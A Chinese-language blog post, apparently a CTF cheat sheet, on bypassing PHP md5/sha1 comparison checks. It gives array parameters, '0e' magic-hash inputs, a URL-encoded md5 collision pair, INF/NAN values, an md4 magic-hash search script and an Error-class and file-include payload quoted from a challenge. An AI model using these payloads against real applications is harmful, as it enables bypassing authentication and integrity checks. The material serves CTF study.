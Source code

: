 ```yaml
---
title: "md5比较常见绕过小结"
slug: "bypass-md5-or-sha1-compare"
description: "摁水一篇"
date: 2021-12-03T00:24:56+08:00
categories: ["NOTES&SUMMARY"]
series: []
tags: ["md5"]
draft: false
toc: true
---
```


> **<u>写在开头：</u>**
>
> **<u>别纠结</u>**
>
> **<u>左侧的符号反转&标题是中文引号&有些符号消失</u>**
>
> **<u>的问题</u>**
>
> **<u>我也很无语</u>**
>
> **寄。**

------

- ```
  md5(array()) = md5(NULL) = d41d8cd98f00b204e9800998ecf8427e
  ```

- sha1绕过和md5绕过方式是一样的

## md5($a)==md5($b) && $a!=$b

数组绕过

```
?a[]=1&b[]=2
```

0e绕过

```
IHKFRNS -> 0e256160682445802696926137988570
QLTHNDT -> 0e405967825401955372549139051580
QNKCDZO -> 0e830400451993494058024219903391
3908336290 -> 0e807624498959190415881248245271
4011627063 -> 0e485805687034439905938362701775
4775635065 -> 0e998212089946640967599450361168
0e215962017 -> 0e291242476940776845150308577824
aabg7XSs -> 0e087386482136013740957780965295
aabC9RqS -> 0e041022518165728065344349536299
```

```
0e251288019 -> 0e874956163641961271069404332409
240610708 -> 0e462097431906509019562988736854
```

md5碰撞

```
a=%D89%A4%FD%14%EC%0EL%1A%FEG%ED%5B%D0%C0%7D%CAh%16%B4%DFl%08Z%FA%1DA%05i%29%C4%FF%80%11%14%E8jk5%0DK%DAa%FC%2B%DC%9F%95ab%D2%09P%A1%5D%12%3B%1ETZ%AA%92%16y%29%CC%7DV%3A%FF%B8e%7FK%D6%CD%1D%DF/a%DE%27%29%EF%08%FC%C0%15%D1%1B%14%C1LYy%B2%F9%88%DF%E2%5B%9E%7D%04c%B1%B0%AFj%1E%7Ch%B0%96%A7%E5U%EBn1q%CA%D0%8B%C7%1BSP
b=%D89%A4%FD%14%EC%0EL%1A%FEG%ED%5B%D0%C0%7D%CAh%164%DFl%08Z%FA%1DA%05i%29%C4%FF%80%11%14%E8jk5%0DK%DAa%FC%2B%5C%A0%95ab%D2%09P%A1%5D%12%3B%1ET%DA%AA%92%16y%29%CC%7DV%3A%FF%B8e%7FK%D6%CD%1D%DF/a%DE%27%29o%08%FC%C0%15%D1%1B%14%C1LYy%B2%F9%88%DF%E2%5B%9E%7D%04c%B1%B0%AFj%9E%7Bh%B0%96%A7%E5U%EBn1q%CA%D0%0B%C7%1BSP
```

## md5($a)==md5(md5($b)) && $a!=$b

数组绕过

```
a=&b[]=1
```

## md5((string)$\_GET['a'])==md5(md5((string)$_GET['b'])) && $a!=$b

0e绕过，一个是正常0e，一个是第二次md5后还为0e的奇葩值

```
aawBzC
aabsbm9
aaaabGG5T
aaaabKGVH
```

## md5($a)==md5($b) && !ctype_alpha($a) && !is_numeric($b)

0e绕过，一个纯数字一个纯字母

```
240610708 -> 0e462097431906509019562988736854
QNKCDZO -> 0e830400451993494058024219903391
```

## md5($a)===md5($b)  &&  $a!=$b

数组绕过

```
?a[]=1&b[]=2
```

## md5($a)===md5(md5($b)) && $a!=$b

数组绕过

```
?a[]=1&b[]=2
```

## md5($a)===md5($b)  &&  $a!==$b

数组绕过

```
?a[]=1&b[]=2
```

## $a!=hash("md4",$a)

0e纯数字绕过

```php
<?php
for ($i = 0; ; $i++) {
    $r = "0e" . $i;
    $md4 = hash("md4", $r);
    if (preg_match("/^0e[0-9]*$/", $md4)) {
        echo ("md4加密前:".$r)."\n";
        echo("md4加密后：".$md4);
        break;
    }
}
```

```
0e251288019 -> 0e874956163641961271069404332409
```

## md5($a)===md5($b) && $a!==$b && strlen($a)<=3 && strlen($b)<=3

INF表示无穷大，而NAN表示一个在浮点数运算中未定义或不可表述的值；除了与True之外，拿NAN与其他任何值进行松散比较或者严格比较返回结果都是FALSE
因为他们都是不确定的值，所以在与自身做比较时，会返回false

![image-20211030175015724](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211030175015724.png)

INF和NAN绕过

```
a=INF&b=INF
```

```
a=NAN&b=NAN
```

## ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover))

做题遇到的

用原生类`Error`（php7）或`Exception`（php5 or 7），它有`__toString`方法，被触发后会以字符串形式输出当前保存情况，包括错误信息和当前报错的行号，而跟传入的参数没有关系；所以说可以构造两个类的实例，它们行号相同（被`__toString`调用后输出信息一样），但是本身不相同（传入参数不等）

```php
$str = "?><?=include~".urldecode(urlencode(~'/flag'))."?>";	// 这个不重要 是那个题的payload
$a=new Error($str,1);$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
```

注意$a和$b写到一行

## $this->token === $this->token_flag

指针取地址绕过

```
$F->token=&$F->token_flag;
```


